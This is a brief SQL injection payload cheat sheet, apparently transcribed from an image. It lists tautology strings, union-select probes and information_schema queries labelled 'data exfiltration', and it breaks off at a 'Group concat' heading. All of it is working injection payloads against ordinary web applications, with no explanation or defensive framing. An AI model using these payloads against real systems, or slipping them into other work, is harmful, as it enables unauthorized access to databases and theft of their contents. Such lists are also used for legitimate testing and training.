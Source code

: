 # basic
' or 1='1
" or 1="1


# union select
' union select 1,2,3;--+
" union select 1,2,3;-- 


# data exfiltration
' union select 1,table_name,3 from information_schema.tables;--+
" union select 1,2,column_name from information_schema.columns;--+




# Group concat
" 